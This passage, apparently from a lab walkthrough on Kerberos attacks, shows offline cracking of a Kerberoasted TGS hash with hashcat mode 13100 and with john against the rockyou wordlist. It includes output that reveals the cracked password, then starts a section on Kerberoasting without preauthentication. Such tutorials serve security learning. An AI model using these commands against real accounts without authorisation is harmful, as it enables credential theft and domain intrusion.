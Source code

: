 ![alt text](../assets/images/kerberos11.png)
    

so we can use `13100` for module

```bash
hashcat -m 13100 ldap_user.hash /usr/share/wordlists/rockyou.txt
```

or with john directly

```bash
john ldap_user.hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

result

```bash
➜  Kerberos john ldap_user.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liverpool        (?)     
1g 0:00:00:00 DONE (2025-08-20 21:40) 50.00g/s 76800p/s 76800c/s 76800C/s 123456..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Kerberoastiong without PreAuthentication

It can be useful when we cannot crack the hash of an account with an asreproasting vulnerability.

Lets look into it!!!
